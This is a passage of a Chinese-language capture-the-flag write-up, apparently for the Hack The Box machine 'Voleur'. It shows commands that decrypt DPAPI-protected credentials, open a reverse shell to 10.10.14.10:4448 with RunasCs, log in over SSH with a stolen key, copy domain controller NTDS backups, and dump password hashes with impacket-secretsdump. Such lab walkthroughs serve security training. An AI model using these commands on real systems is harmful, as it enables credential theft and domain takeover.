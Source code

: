 
```
# 先解密 master key
impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -password 'Nig......14' -sid S-1-5-21-3927696377-1337352550-2781715495-1110

# 再用 master key 解密被加密的凭证
impacket-dpapi credential -f 772275FAD58525253490A9B0039791D3 -key 0xd2832547d1d......650a83
```

  
解密后发现了
```
Jeremy.Combs
```

  
用户和密码  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2ILKy0oho5qib3ibswMNzr1XRtYgkXUl2J7VzUXP11OLpZyljicw9yTuxE1Pia4N8lqp0UQTB7cnoaCdg/640?wx_fmt=png&from=appmsg "null")  
  
### WSL 备份文件  
  
继续用 runas 把 Jeremy.Combs 用户反弹 shell 回来  

```
.\RunasCs.exe jeremy.combs qT3......4m cmd.exe -r 10.10.14.10:4448
```

  
在 C 盘 IT 目录下找到跟他有关的目录，并且发现了一个 ssh 私钥、一个笔记、以及一个备份目录，访问备份目录提示没有权限  
  
从笔记中看到这个备份文件跟电脑上安装的 WSL 系统有关，前面端口扫描的时候已经得知 WSL 是个 Ubuntu，SSH 端口是 2222  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5HsgFkdwV2ILKy0oho5qib3ibswMNzr1XREcEmxJjK7Y8Ydv0eQZpHUzp1nnWq4jwOseWb3c8NFvtNvyvNmbQysA/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
把私钥下回来给 600 权限，用
```
svc_backup
```

  
用户名登录成功，在备份目录中发现域控的 ntds，system 等文件  

```
ssh -i id_rsa -p 2222 &#34;svc_backup@dc.voleur.htb&#34;

# 下载回来在本地解密
scp -i id_rsa -P 2222 -r &#34;svc_backup@dc.voleur.htb:/mnt/c/IT/Third-Line Support/Backups&#34; ./
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2ILKy0oho5qib3ibswMNzr1XRvQcmL9r4pNxOeib7LxSyJZIkxuSll7Wpq1sia9DzrabhdbVRPnp3MVOA/640?wx_fmt=png&from=appmsg "null")  
  
  
impacket-secretsdump 解密哈希  

```
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```

